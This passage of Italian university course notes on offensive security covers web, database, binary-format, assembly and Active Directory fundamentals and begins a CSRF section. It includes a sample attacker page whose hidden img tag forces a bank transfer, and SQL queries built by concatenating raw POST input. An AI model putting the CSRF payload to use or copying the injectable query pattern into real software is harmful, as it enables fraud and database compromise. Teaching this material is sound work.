CORS Pre-flight Request Server Response
OPTIONS / HTTP/1.1 200 OK
Host: sitoB.com Access-Control-Allow-Origin: *
Origin: sitoA.com Access-Control-Allow-Methods: GET, HEAD, 
Access-Control-Request-Method: DELETE, POST, PUT, DELETE, TRACE
\end{verbatim}

\textbf{Eccezioni di CORS}

Il funzionamento di CORS ha due eccezioni fondamentali:
\begin{itemize}
    \item Nel caso in cui venga usato un metodo HTTP safe (come GET, HEAD, OPTIONS), il browser non invia una CORS pre-flight request ma cerca di accedere direttamente alla risorsa.

    \item Se la risposta del server include l’header A\textbf{ccess-Control-Allow-Credentials: true}, che permette a sorgenti esterne (come \verb|sitoA.com|) di effettuare azioni autenticate su \verb|sitoB.com| mediante l’invio di cookies o altre credenziali, allora \textbf{Access-Control-Allow-Origin} non può essere impostato sulla wildcard *, ma deve contenere una lista di origini ammesse.
    \begin{itemize}
        \item Se il server espone tale lista ma non l’header Access-Control-Allow-Credentials: true, le credenziali vengono comunque inviate dal browser.
    \end{itemize}
\end{itemize}

\subsubsection{Document Object Model (DOM)}
Il \textbf{DOM (Document Object Model)} è un’interfaccia che gestisce i documenti HTML o XML ad albero, in cui ogni nodo è un elemento del documento.
\begin{figure}[h]
    \centering
    
\includegraphics[width=0.7\linewidth]{Immagini/DOM tree.png}
\end{figure}

Ci sono metodi del DOM per accedere a/modificare tale albero, cambiando il contenuto di un nodo, la sua posizione nell’albero, lo stile, etc.\\
Ad esempio, possiamo accedere alla lista dei paragrafi presenti all’interno della pagina (identificati dal tag \verb|<p>|) tramite \textbf{metodo DOM}:
\verb|getElementsByTagName|:
$$
\verb|var myPars = document.getElementsByTagName(“P”)|;
$$

\subsubsection{cURL}
\textbf{cURL} è un tool da riga di comando per inviare e ricevere dati tramite sintassi \textbf{URL}. Il tipo di richiesta è completamente personalizzabile e tra le opzioni più utili vi sono:
\begin{itemize}
    \item \verb|-X| per specificare il \textbf{metodo} (GET, POST, HEAD, PUT...)
    \item \verb|-H| per specificare \textbf{header} personalizzati, come  Cookie o User Agent.
    \item \verb|-d| per specificare \textbf{parametri POST}. La sintassi:
    \verb|-d 'parametro1=aaa&parametro2=bbb'|\\
    funziona quasi sempre, a meno che l'applicazione non si aspetti in input un \textbf{json}.\\ In tal caso è necessario impostare l’header "Accept: application/json" e usare la sintassi\\ \verb|-d{‘parametro1’:’aaa’,‘parametro2’:’bbb’}| per i parametri.
    \item \verb|--help all|.
\end{itemize}

\newpage

\subsubsection{Burp Suite}
Burp Suite è una piattaforma che integra diversi tool per il testing di applicazioni web, fra cui:
\begin{itemize}
    \item \textbf{Proxy}: All’avvio, Burp fa partire un proxy service sulla porta 8080 (indirizzo completo \\127.0.0.1:8080). 
    Impostando tale indirizzo come proxy nel browser, Burp intercetta tutto il traffico in entrata e in uscita, permettendoci di modificare le richieste web.
    \item \textbf{Intruder}: Essenzialmente un bruteforcer. Invia richieste web sequenziali ad un dato server, permettendoci di specificare uno o più insiemi di valori da iterare.
    \begin{itemize}
        \item Avendo la \textbf{Community Edition} un rate limiting molto limitato, è più efficiente fare bruteforcing  scrivendo 
        uno \textbf{script in Python}, utilizzando il package “requests”.
    \end{itemize}
    \item \textbf{Repeater}: Clona una richiesta web e permette di inviarla dopo aver apportato delle modifiche.
    \begin{itemize}
        \item Anche se il target è stato impostato in Burp, è necessario specificare sempre l’header \textbf{Host}.
        \item L’header \textbf{Content-Length} può essere omesso e verrà aggiunto da Burp in automatico.
        \item L’header \textbf{Content-Type} è necessario perché vengano riconosciuti i parametri POST come parte della richiesta.
        \item \textbf{L’inspector} può aiutare a craftare la richiesta senza scrivere manualmente gli header.
    \end{itemize}
    \item \textbf{Decoder}: Permette di codificare o decodificare stringhe in Base64, Hex, Binario, ASCII, etc.
\end{itemize}

\subsection{Fondamenti di Basi di Dati}
Qui verranno elencate solo nozioni basilari sulle Basi di Dati. Per chi ha già superato il corso di Basi di Dati, questa sottosezione sarà un semplice ripasso, per chi non lo ha fatto questa sarà una introduzione efficace ad alcune nozioni di SQL.
\subsubsection{Tipi di Database}
Molte applicazioni web usando delle Basi di Dati per salvare dati da utilizzare in un secondo momento, come ad esempio per generare pagine dinamiche. Esistono due macro tipologie di basi di dati:
\begin{itemize}
    \item \textbf{Relazionali}: Questi DB rappresentano i dati in tabelle logicamente collegate tra loro tramite chiavi \textbf{esterne}, con chiavi \textbf{interne} per identificare ogni singola tupla, con campi fortemente tipizzati ed etc. Esempi di database relazionali sono MySQL, PostgreSQL e SQLite.

    \item \textbf{Non relazionali}: Questi DB rappresentani i dati in diversi modelli, come documenti JSON o grafi, senza campi fortemente tipizzati. Sono molto più \textbf{flessibili} dei database relazionali ma più lenti nelle query. Esempi di database non relazionali sono MongoDB e DynamoDB.
\end{itemize}

\subsubsection{Query}
Per accedere alle informazioni memorizzate in una base di dati, effettuiamo delle \textbf{query}, ovvero interrogazioni volte alla ricerca di specifiche informazioni tramite il linguaggio \textbf{SQL} (Structured Query Language).

SQL ci permette di effettuare operazioni \textbf{CRUD} (Create, Read, Update, Delete) sul database in tempo reale. La sintassi varia leggermente in base al DBMS (Database Management System) utilizzato, ma la forma generale della query rimane la stessa. Un esempio di query è:
\begin{verbatim}
SELECT *
FROM Users
WHERE Username = '".$_POST['username']."'
    AND Password = '"$_POST['password']"'
\end{verbatim}
Questa query restituisce la tupla della tabella Users in cui username e password corrispondono a quelli inviati dall’utente mediante richiesta POST. Se tale tupla viene trovata, il login ha successo.   

\newpage

\subsubsection{Query con Insert, Delete, Update e Drop}
\begin{itemize}
    \item \begin{verbatim}
INSERT INTO Users 
VALUES (‘”.$_POST[‘username’].“’, ”.$_POST[‘password’].“)
\end{verbatim}
    Inserisce una nuova tupla all’interno della tabella Users, in cui username e password vengono scelti dall’utente. Il campo ID non viene inserito dall’utente perché generato automaticamente dal DBMS.

    \item \begin{verbatim}
DELETE FROM Users 
WHERE Username = ‘”.$_POST[‘username’].“’ 
\end{verbatim}
    Cancella dalla tabella Users l’utente con il nome specificato.

    \item \begin{verbatim}
UPDATE Users 
SET Password = ‘”.$_POST[‘password’].“’ 
WHERE Username = ‘”.$_POST[‘username’].“’ 
\end{verbatim}
    Aggiorna la password di un determinato utente.
    
    \item \begin{verbatim}
DROP TABLE Users
\end{verbatim} 
    Cancella la tabella Users.
\end{itemize}

\subsubsection{Operatore UNION}
Con l'operatore UNION è possibile unire il risultato di una query a quello di un'altra query (o anche più query). Supponendo di avere due tabelle contenenti una gli utenti nel DB e l'altra gli utenti cancellati, una query UNION sarebbe così:
\begin{verbatim}
SELECT Username, Password 
FROM Users 
UNION
SELECT Old_User, Account_Delete_Timestamp 
FROM Deleted_Users
\end{verbatim}
La tabella risultante conterrebbe una lista completa di tutti gli utenti, cancellati e non. Inoltre la tabella risultante non comprende alcuna specifica sul campo, in quanto UNION non unisce le tabelle (per quello si usano le JOIN) ma solo i risultati delle query.\\
Tuttavia non è possibile usare l'operatore UNION:
\begin{itemize}
    \item Quando le tabelle hanno un numero di colonne diverso.
    \item Quando le colonne che saranno unite hanno un tipo diverso.
\end{itemize}
Se una delle due condizioni dovesse accadere, il DBMS restituirebbe un errore.

\subsubsection{Operatore ORDER BY}
L'operatore ORDER BY permette di ordinare i risultati di una query per una o più colonne. Per usarlo si deve inserire il \textbf{nome} della colonna per cui si vuole l'ordinamento dei record oppure il \textbf{numero} che indica la posizione di tale colonna. Esempio:
\begin{verbatim}
SELECT ID, Autore, Messaggio, Likes, Dislikes, Timestamp 
FROM Posts 
WHERE Autore = ‘pippo’ 
ORDER BY 2
\end{verbatim}
Questa query restituisce tutti i record della tabella \textbf{Posts}, ordinati per Autore. In questo caso i valori validi per ORDER BY sono i numeri interi da 1 a 6 e qualsiasi numero superiore restituirebbe un errore.

\newpage

\subsection{Fondamenti su File Eseguibili, Registri e Assembly}
\subsubsection{Formato PE}
Il formato PE (Microsoft Windows \textbf{P}ortable \textbf{E}xecutable) definisce il modo in cui i dati vengono organizzati all’interno del file e contiene le istruzioni e i dati richiesti affinché l’eseguibile funzioni correttamente. Viene usato per i file \textbf{.exe}, \textbf{.dll} e \textbf{.sys}.\\
\begin{minipage}{0.31\textwidth}
\begin{figure}[H]
    
\includegraphics[width=1\linewidth]{Immagini/PE.png}
\end{figure}
\end{minipage}
\quad
\begin{minipage}{0.60\textwidth}
\begin{itemize}
    \item \textbf{DOS header}: È un header presente solo per compatibilità, in quanto stampa un messaggio di errore se si tenta di avviare quell'applicazione su MS DOS. Presenta inoltre un offset diretto al PE header.

    \item \textbf{PE header}: Contiene alcune informazioni sul file, come data e ora di compilazione, architettura, compressione, la grandezza dell'Optional header, etc.

    \item \textbf{Optional header}: Contiene diverse informazioni utili per il reverse engineer, ad esempio l’entry point, oppure l'indirizzo a dove è memorizzato il codice del programma. Stabilisce, grazie ad un "numero magico" inoltre se si tratta di un eseguibile PE32 o PE32+.

    \item \textbf{Section headers}: Descrive le varie sezioni presenti nel file, che contengono i dati che verranno usati durante l'esecuzione del file.
\end{itemize}
\end{minipage}
\begin{itemize}
    \item \textbf{.text section}: Contiene istruzioni eseguibili per la specifica architettura hardware (X86, X64, ARM, PowerPC).   

    \item \textbf{.idata section}: Contiene la \textbf{Import Directory Table} (IDT), ovvero una tabella con informazioni sugli indirizzi utilizzati per risolvere i riferimenti di correzione agli entry point all'interno di un'immagine DLL. Contiene anche la \textbf{Import Lookup Table} (ILT), ovvero un array dove ogni entry è un riferimento a un dato DLL.
    Infine contiene anche un \textbf{Import Address Table} (IAT), ovvero 
    una lista delle librerie che verranno usate dal programma, e le loro funzioni.

    \item \textbf{.rsrc section}: Contiene le risorse che verranno utilizzate dal programma (immagini, video, audio, etc).

    \item \textbf{.reloc section}: Contiene informazioni per il trasferimento di codice su altre posizioni, cosicché sia ancora possibile eseguirlo quando viene caricato su posizioni di memoria insolite.
\end{itemize}

\subsubsection{Formato ELF}
Il formato ELF (Executable and Linkable Format) è un comune formato per 
eseguibili e librerie su sistemi Unix.\\
\begin{minipage}{0.30\textwidth}
\begin{figure}[H]
    
\includegraphics[width=1\linewidth]{Immagini/ELF.png}
\end{figure}
\end{minipage}
\begin{minipage}{0.70\textwidth}
\begin{itemize}
    \item \textbf{ELF}: Definisce come leggere il file, ad esempio se devono essere usati indirizzi a 32 o 64 bit, se è in little o big endian, l’ISA (Instruction Set Architecture) da utilizzare, etc.

    \item \textbf{Program}: Descrive i segmenti di memoria utilizzati a runtime e spiega al sistema operativo come creare il processo per l’eseguibile.

    \item \textbf{Section}: Descrive le sezioni utilizzate, ad esempio se sono eseguibili o meno, tipologia e dimensioni dei dati contenuti, etc.

    \item \textbf{.text, .data e .rodata}: Simili ai campi di PE come \textbf{.rdata}.

    \item \textbf{.bss}: Contiene spazio non inizializzato per dati in lettura/scrittura.

    \item \textbf{.debug}: Contiene informazioni di debug.

    \item \textbf{.pit}: Sta per Procedure Linkage Table e contiene la tabella delle procedure/funzioni il cui indirizzo non è noto al momento del linking, e che viene calcolato dal dynamic linker a runtime.

    \item \textbf{.relname, .relaname}: Simili ai campi di PE come \textbf{.reloc}

    \item \textbf{.got}: Contiene la global offset table. Insieme a .plt, .relname e altre sezioni, contiene informazioni utili per il dynamic linking.
\end{itemize}
\end{minipage}

I campi \textbf{.bss} e \textbf{.debug} sono presenti anche nel formato PE.

\newpage

\subsubsection{Registri}
I registri sono piccole unità di salvataggio dati che risiedono sulla CPU. 
Vengono salvate al loro interno informazioni come l’indirizzo della prossima istruzione da eseguire, operandi, etc.\\
\begin{minipage}{0.30\textwidth}
\begin{figure}[H]
    
\includegraphics[width=1\linewidth]{Immagini/Registri.png}
\end{figure}  
\end{minipage}
\quad
\begin{minipage}{0.67\textwidth}
\begin{itemize}
    \item Nei sistemi a 32 bit, ogni registro può contenere fino a 32 bit di dati, anche se un programma può decidere di usare solo parte dello spazio disponibile, ad esempio 8 o 16 bit.
    \item Nei sistemi a 32 bit, i registri normalmente \textbf{iniziano per E}.
    \item Nei sistemi a 64 bit, i registri \textbf{iniziano per R}, ma se ci si vuole riferire solo ai 32 bit più "bassi" all'interno del registro, si può usare la E.
    \item  Qualora ci si voglia riferire ai 16 bit più bassi, “cade” la lettera prefisso, che sia R o E.
    \item Per gli 8 bit più bassi, viene aggiunta una X. Se il nome del registro non dispone di una X, si usa una L.
    \item \textbf{Extended Stack Pointer (ESP)} punta alla cima dello stack.
    \item \textbf{Extended Base Pointer (EBP)} punta al fondo dello stack.
    \item \textbf{Extended Instruction Pointer (EIP)} punta alla prossima istruzione da eseguire. In alcune architetture viene chiamato \textbf{Program Counter (PC)}.
    \begin{itemize}
        \item Se un eseguibile è vulnerabile a \textbf{buffer overflow}, è spesso possibile per l’attaccante \textbf{sovrascrivere il registro ESP} e alterare il flusso dell’applicazione.
        \item Ciò può condurre l’attaccante al controllo dell’applicazione e all’\textbf{esecuzione di codice arbitrario}.
    \end{itemize}
\end{itemize}
\end{minipage}

\subsubsection{Stack}
\begin{minipage}{0.50\textwidth}
\begin{figure}[H]
    
\includegraphics[width=0.85\linewidth]{Immagini/Stack.png}
\end{figure}   
\end{minipage}
\quad
\begin{minipage}{0.45\textwidth}
\begin{itemize}
    \item La RAM è tipicamente suddivisa in word da 64 bit, ciascuna indicizzabile con un indirizzo esadecimale.\\ Il sistema operativo riserva a ciascun processo una regione contigua di RAM, gestendola come uno stack.
    \item Quando una funzione viene eseguita, alcuni dati sul suo stato vengono aggiunti in cima allo stack.
    \item Tra gli elementi che vengono aggiunti allo stack, troviamo gli argomenti della funzione, variabili al suo interno e l’indirizzo cui dovrà ritornare quando termina.
\end{itemize}
\end{minipage}

\subsubsection{Istruzioni Assembly}
\begin{minipage}{0.25\textwidth}
\textbf{Istruzioni Aritmetiche}:
\begin{verbatim}
add reg, n
sub reg, n
inc reg
dec reg
\end{verbatim}
\end{minipage}
\quad
\begin{minipage}{0.27\textwidth}
\textbf{Istruzioni di Movimento}:
\begin{verbatim}
mov reg2, reg1
mov reg, 0xaddress
mov reg, n
mov 0xaddress, reg
\end{verbatim}
\end{minipage}
\quad
\begin{minipage}{0.27\textwidth}
\textbf{Istruzioni di Controllo}:
\begin{verbatim}
call 0xaddress
ret
jmp 0xaddress
cmp reg2, reg1
\end{verbatim}
\end{minipage}
\ 
\begin{minipage}{0.21\textwidth}
\begin{verbatim}
je 0xaddress
jne 0xaddress
jge 0xaddress
jle 0xaddress
\end{verbatim}
\end{minipage}

\textbf{Precisazioni}:
\begin{itemize}
    \item L’istruzione \verb|cmp| effettua la differenza tra secondo e primo operando, salvando il risultato in un registro chiamato EFLAGS.
    \item  Le istruzioni di \textbf{jump condizionale} (\verb|je, jne, jge, jle|) seguono immediatamente le istruzioni \verb|cmp|, ed effettuano il salto solo su determinate condizioni.
\end{itemize}

\newpage

\subsection{Fondamenti su Active Directory}
\subsubsection{Servizio di Directory e Active Directory}
Un servizio di directory è un \textbf{programma} o un insieme di programmi che provvedono ad organizzare, gestire e memorizzare \textbf{informazioni} e \textbf{risorse centralizzate} all'interno di reti di computer disponibili agli utenti tramite la rete stessa, con controlli degli accessi sull'uso delle stesse al lavoro dell'amministratore di sistema.

Active Directory è il servizio di directory di Windows Server e permette di gestire e distribuire in maniera centralizzata i permessi per accedere alle risorse aziendali.

\subsubsection{Domini}
Queste risorse, organizzate in \textbf{Domini}, si differenziano in diversi oggetti, tra cui utenti, hardware, software, ruoli, servizi. L'AD si divide in più domini quando manca una relazione di trust tra i diversi domini, come nel caso di un'acquisizione di un'azienda.

Le informazioni all'interno di un dominio sono accessibili solo attraverso il suo \textbf{Domain Controller}. Per ricercare più velocemente oggetti in un dominio esiste il \textbf{Global Catalogue}, che racchiude una copia di ogni oggetto nel dominio, con un set di attributi ristretto.\\
Un Domain Controller può ospitare un Global Catalogue e altri domini possono fare richieste di lettura su esso.

\subsubsection{Partizioni}
Ogni dominio include delle partizioni, che vengono chiamate \textbf{Directory Partitions}, tra cui:
\begin{itemize}
    \item \textbf{Schema Partition}: Questa partizione contiene gli oggetti \textit{classSchema} e \textit{attributeSchema}, che definiscono quali oggetti possono esistere all’interno della foresta di domini.

    \item \textbf{Configuration Partition}: Questa partizione contiene  informazioni su come i dati sono replicati all’interno della foresta.
    Lo schema partition e questa partizione sono condivise tra tutti i Domain Controller della foresta.

    \item \textbf{Domain Partition}: Questa partizione contiene gli oggetti del dominio, come gli utenti, i computer, i server, i servizi ed altro. Ogni DC mantiene solo copia della Domain Partition del proprio dominio.
\end{itemize}

\subsubsection{Autenticazione}
Active Directory, tramite il Single Sign On, permette di accedere agli oggetti a dominio con un solo login, tramite due diverse tecnologie:
\begin{itemize}
    \item Kerberos
    \item Lightweight Directory Access Protocol (LDAP)
\end{itemize}

\subsubsection{Kerberos}
Kerberos è un protocollo di comunicazione in un Active Directory per l'autenticazione tramite l'uso di ticket per permettere a nodi di comunicare in una rete non sicura per provare la loro identità tra loro in sicurezza. È un protocollo \textbf{client-server} che prevede \textbf{mutua autenticazione}, quindi sia il client che il server verificano l'identità altrui. Kerberos consiste di 5 fasi:

\begin{minipage}{0.43\textwidth}
\begin{enumerate}
    \item Il client chiede un TGT (Ticket-Granting Ticket) all'AS (Authentication Server) e invia dei dettagli per autenticarsi.
    
    \item L'AS risponde con un TGT e una session key, crittografati con la chiave del client.

    \item Il client invia il TGT al TGS (Ticket-Granting Service) per un dato servizio.

    \item Il TGS risponde con un ticket per il servizio e una session key per comunicare il servizio.

    \item Il client può autenticarsi con il servizio ed usarlo.
\end{enumerate}
\end{minipage}
\quad
\begin{minipage}{0.50\textwidth}
\begin{figure}[H]
    
\includegraphics[width=1.1\linewidth]{Immagini/Kerberos.png}
\end{figure}
\end{minipage}

\newpage

I permessi per l'accesso ai servizi per il rilascio dei ticket \textbf{non sono} sempre gli stessi. Distinguiamo i tre tipi di permessi rilasciabili:
\begin{itemize}
    \item \textbf{Uncontrained Delegation (Delega senza restrizioni)}: Un oggetto "trusted for auth" può ottenere TGT e rilasciare ticket per tutti i servizi. Tuttavia se l’attaccante violasse tale oggetto, potrebbe ottenere ticket per qualsiasi servizio.

    \item \textbf{Constrained Delegation (Delega con restrizioni)}: Un oggetto "trusted for auth" può ottenere TGT e rilasciare ticket solo per certi servizi ed inoltre, i TGT e i ticket emessi sono validi per un solo servizio. Se l’attaccante violasse questo oggetto, potrebbe ottenere ticket solo per alcuni servizi.

    \item \textbf{Resource-Based Constrained Delegation (Delega con restrizioni sulla risorsa)}: Ogni servizio ha una lista di oggetti "trusted for auth" e due istanze dello stesso servizio possono delegare entità diverse per i ticket.\\
    Se le deleghe sono ben sparse, se l’attaccante violasse un oggetto “trusted for auth” otterrebbe ticket solo per un servizio.
\end{itemize}

\subsubsection{Lightweight Directory Access Protocol - LDAP}
Lightweight Directory Access Protocol (LDAP) è un protocollo che permette agli utenti di leggere e aggiornare informazioni da un directory 
service, come un AD. Presenta due modalità d'accesso:
\begin{itemize}
    \item \textbf{Simple Authentication (SA)}: L’autenticazione avviene solo \textbf{inserendo username e password}. La RFC 2251 descrive il processo mediante un canale in cleartext, anche se ad oggi SA viene unita a IPSec o TLS per proteggere la comunicazione.

    \item \textbf{Simple Authentication and Security Layer (SASL)}: Essenzialmente SA con un ulteriore protocollo per l’autenticazione dell’utente, ad esempio con NTLM o con Kerberos.
\end{itemize}

\subsubsection{Autenticazione NT LAN - NTLM}
L'autenticazione NTLM si basa su un metodo \textbf{challenge-response} tra il client e l'host. Il client invia un nome utente per identificarsi, l'host risponde con un numero casuale e il client a sua volta risponde con un valore hash. A quel punto l'host autorizzerà o bloccherà l'accesso. 
Questo metodo tuttavia è vecchio ed inefficace, in quanto:
\begin{itemize}
    \item La comunicazione \textbf{non è cifrata}.
    \item La risposta NTLM, in NTLMv2, generalmente è la nonce firmata con l'hash della password del client (HMAC).
    \item All'attaccante spesso basta ottenere l'hash per violare l'autenticazione NTLM, ad esempio tramite attacchi come \textbf{pass-the-hash}.
    \item L'hash della password è calcolato in MD4, ad oggi violabile in pochi istanti.
\end{itemize}

\subsubsection{Group Policy}
Le Group Policy definiscono cosa gli utenti appartenenti ad un certo gruppo possono fare. Tali restrizioni e permessi sono applicabili a un range molto vasto di azioni, che vanno dal semplice permesso di lettura e scrittura su uno share di rete, alla complessità minima da dover impostare per la propria password.

Le Group Policy tipicamente risiedono su più livelli e vengono eseguite dalla meno rilevante alla più rilevante:
\begin{enumerate}
    \item \textbf{Locale}: Impostazioni della macchina.
    \item \textbf{Sito}: Impostazioni del gruppo a cui la macchina è associata.
    \item \textbf{Dominio}: Impostazioni del dominio di cui fa parte la macchina.
    \item \textbf{Unità Organizzativa}: Impostazioni aziendali che valgono per tutti i domini.
\end{enumerate}

Se ci sono due policy dello stesso livello che sono in conflitto, generalmente ha priorità quella che è stata applicata più recentemente. Tuttavia:
\begin{itemize}
    \item L’amministratore di sistema può comunque dare priorità alle policy che preferisce, modificando il loro “link order”: le policy linkate per ultime, ovvero con link order più alto, avranno la precedenza.

    \item Le policy possono anche essere \textbf{Enforced}, e verranno processate dopo tutte le altre. Se due policy in conflitto sono enforced, torna a valere il link order.
\end{itemize}


\newpage
\section{Exploitation}
\subsection{Tipi di Exploitation}
Ogni software contiene delle vulnerabilità e, una volta individuate, è tempo di sfruttarle. In base al sistema e al software, abbiamo diversi tipi di vulnerabilità e di conseguenza diversi metodi di Exploitation, come la \textbf{Web Exploitation}, il \textbf{Reverse Engineering}, la \textbf{Binary Exploitation} e l'\textbf{Active Directory}.

Concentrandoci sulla Web Exploitation, la si può dividere in tre macro categorie, comprendenti le vulnerabilità trattate nel corso:
\begin{itemize}
    \item \textbf{Client Side}:  
    \begin{itemize}
        \item Cross Side Request Forgery (CSRF)
        \item CRLF Injection
        \item XSS (Cross Site Scripting)
    \end{itemize}
    \item \textbf{Database}:
    \begin{itemize}
        \item SQL Injection
        \item Blind SQL Injection
        \item Time-based SQL Injection
        \item No-SQL Injection
        \item Falle Logiche
    \end{itemize}
    \item \textbf{Server Side}:
    \begin{itemize}
        \item Path Traversal $\Rightarrow$ File Disclosure
        \item Command Injection
        \item Code Injection
        \item Local/Remote File Inclusion (LFI/RFI)
        \item Server-Side Request Forgery (SSRF)
        \item Template Injection
        \item XXE (XML eXternal Entity)
    \end{itemize}
\end{itemize}

\newpage
\section{Web Exploitation - Client Side}
Questa sezione tratta delle principali vulnerabilità dal lato del Client. Per ogni vulnerabilità viene presentata una soluzione per sanitizzarla, tuttavia è bene tenere a mente che \textbf{ogni sanitizzazione} viene effettuata \textbf{Server-Side} e non Client-Side, in quanto altrimenti sarebbero facilmente aggirabili.  

\subsection{Cross Site Request Forgery - CSRF}
La Cross Site Request Forgery è una vulnerabilità di sicurezza web che consente a un aggressore di indurre gli utenti a eseguire azioni che non intendono eseguire.

\subsubsection{Esempio}

 L'aggressore può indurre l'utente vittima a eseguire un'azione involontaria, come modificare l'indirizzo email del proprio account, di cambiare la password o di effettuare un trasferimento di fondi.

Supponiamo che, dopo aver fatto il login sulla propria banca, la vittima provi a fare un bonifico di 100€ all’utente Alice. L’URL della richiesta sarà qualcosa di simile a:\\
\verb|https://sitoB.com/HomeBanking/transferMoney?dest=Alice&ammount=100|

Ad un attaccante basterebbe rimpiazzare il nome di Alice con il proprio (ad esempio Eve) per ottenere il bonifico. Eve quindi crea un sito web malevolo il cui codice somiglia al seguente:

\begin{verbatim}
sitoA.com/index.php
<html> … contenuto …
<img src=”https://sitoB.com/HomeBanking/transferMoney?dest=Eve&ammount=5000”/>
… altro contenuto… </html>
\end{verbatim}
Eve invia alla vittima il link al suo sito web, sitoA.com. Nel momento in cui la vittima clicca sul link, parte un bonifico di 5000€ verso Eve.

\subsubsection{Spiegazione}

Abbiamo visto che la vittima ha visitato \textbf{sitoA.com}, ma l’azione malevola è partita sul dominio \textbf{sitoB.com}, in quanto Eve ha inserito il seguente tag immagine sul suo sito web:\\
\verb|<img src=”https://sitoB.com/HomeBanking/transferMoney?dest=Eve&ammount=5000”/>|

Con questo tag il browser invia una richiesta a \textbf{sitoB.com}, credendo di recuperare \textbf{un'immagine}. Nella realtà non vi è alcun immagine dietro quel link, ma la richiesta è stata ormai inviata e presa in carico dal server della banca, che la ritiene legittima.

CSRF può funzionare anche con \textbf{POST}, tuttavia servono payload più complessi che sfruttino script all'interno della pagina malevola che sfruttino tali richieste.

\subsubsection{Perché la SOP non è una soluzione}

Seppur sembrano scenari irrealistici, tuttavia sfortunatamente vulnerabilità di questo tipo sono state documentate in passato.\\
La \textbf{Same Origin Policy} evita che script dentro \textbf{sitoA.com} possano accedere alle risorse esposte da \textbf{sitoB.com} ma \textbf{non evita} l’effettivo inoltro delle richieste da parte del browser, neanche con regole CORS molto strette.

Esistono due principali soluzioni alla CSRF:
\begin{itemize}
	\item \textbf{SameSite};
	\item \textbf{CSRF Token}.
\end{itemize}

\subsubsection{SameSite}
SameSite è un meccanismo che abilità i browser a limitare i cookies mandati nelle richieste cross-site, a seconda della \textbf{provenienza} della richiesta e del \textbf{metodo} utilizzato per la stessa.\\ La sintassi di SameSite è:
$$
\verb|Set-Cookie: <cookie-name>=<cookie-value>; SameSite=<Strict/Lax/None>|
$$
\newpage
Si possono distinguere due casi principali con SameSite:
\begin{itemize}
	\item Il \textbf{sitoB.com} chieda un elemento al \textbf{sitoA.com} e invia una richiesta.
	
	\item L'utente, sul \textbf{sitoA.com}, clicchi un link che porta al \textbf{sitoB.com}.
\end{itemize}


Vi sono \textbf{tre opzioni per impostare SameSite}, per ogni opzione includo i due casi sopracitati:
\begin{itemize}
	\item \textbf{Strict}:
